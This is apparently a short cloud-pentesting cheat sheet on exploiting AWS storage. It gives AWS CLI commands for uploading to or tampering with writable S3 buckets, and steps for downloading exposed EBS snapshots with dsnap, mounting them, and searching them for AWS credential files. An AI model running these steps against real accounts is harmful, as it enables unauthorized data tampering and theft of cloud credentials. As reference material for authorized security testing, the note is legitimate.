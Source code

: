 ___
Once you know which buckets or volumes exist, try to retrieve or tamper with data.
(See [[Discovery & Reconnaissance]])

### S3 Buckets
---
**Upload Objects** (if the bucket is writable):
```bash
aws s3 cp <localfile> s3://<bucket-name>/
```
**Bucket ACL or Policy Misconfiguration**
```bash
aws s3api put-object --bucket <bucket-name> \
  --key "test.txt" --body "./test.txt"
```
If it succeeds, the bucket is world-writeable.
### EBS Snapshot Exploitation
---
Identify accessible snapshots (See [[Discovery & Reconnaissance]])
Use `dsnap` to download:
```bash
dsnap --region <region> get <SNAPSHOT_ID>
```
Launch a Docker container to mount the disk image:
```bash
sudo IMAGE=<path/to/snapshot.img> make docker/run
# Example: sudo IMAGE=./snap-xxxxxx.img make docker/run
```
Inspect the mounted filesystem for AWS credentials in `~/.aws/credentials`, config files, or environment files.